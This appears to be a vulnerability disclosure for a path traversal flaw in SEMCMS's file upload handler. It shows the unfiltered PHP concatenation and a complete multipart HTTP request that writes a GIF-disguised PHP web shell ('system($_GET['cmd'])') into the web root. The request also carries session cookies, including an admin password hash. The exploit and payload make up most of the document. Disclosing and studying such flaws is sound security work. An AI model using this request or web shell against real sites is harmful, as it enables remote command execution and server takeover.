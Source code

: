 Path Traversal Vulnerability (CWE-22)

2. Path Concatenation**
   The value of `$Imageurl` parameter `../Images/default/` concatenated with the value of `wname` parameter `../../shell`, results in the final storage path:
   `../Images/default/../../shell.jpg` → Equivalent to `../../shell.jpg`.
3. **Directory Traversal Effect**
   Assuming the website root directory is `/var/www/html/`, the final path of the uploaded file would be:
   `/var/www/html/1cj5Mn_Admin/../Images/default/../../shell.jpg` → `/var/www/html/shell.jpg`.

Source Code:

```
// Unfiltered path concatenation 
$Imageurl = $_POST["imageurl"]; // User-controllable 
$newname = test_input($_POST["wname"]) . "." . $ext; // User-controllable 
move_uploaded_file($tmp_name, $Imageurl . $newname);
```

**Cause of Vulnerability:**

- Lack of path normalization for `imageurl` and `wname`.
- No restriction on directory traversal characters (`../`) in user input.

```
POST /1cj5Mn_Admin/SEMCMS_Upfile.php HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Length: 813
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/1cj5Mn_Admin/SEMCMS_Upload.php?Imageurl=../Images/default/&filed=down_file&filedname=form
Cookie: csrftoken=DC1ie5F1GBasnO3BOxBk7lQ26Ee82lQM; _ga_R1FN4KJKJH=GS1.1.1731064454.3.1.1731065715.0.0.0; _ga=GA1.1.1573617850.1730626906; 4411def9d576984c8d78253236b2a62f__typecho_uid=1; 4411def9d576984c8d78253236b2a62f__typecho_authCode=%24T%24B0Y0sei2u2a444450e82362ddf26030b5474ad3c6; PHPSESSID=va4k07vvgftbnhaomq31s87np1; csrf_cookie_name=d9764bb0c2711f0ce2444be389abeb68; xunruicms_527064877b6d641aa8c19449a87beacc=tmuo9h6ga29i2pel1evd7qh8fs9cpbvg; 527064877b6d641aa8c19449a87beacc_member_uid=1; 527064877b6d641aa8c19449a87beacc_member_cookie=2da9437e47038d33a019eac9432349d7; __tins__4329483=%7B%22sid%22%3A%201739256022241%2C%20%22vd%22%3A%202%2C%20%22expires%22%3A%201739257829169%7D; __51cke__=; __51laig__=2; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="wname"

../../shell
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="file"; filename="1.jpg" 

GIF89a;
<?php system($_GET['cmd']); ?>
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="imageurl"

../Images/default/
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filed"

down_file
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filedname"

form
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="submit"

Submit
------geckoformboundary7885279eed7384fc280d6248a79275ff--

```

![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1739274102564.png)

![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1739274083687.png)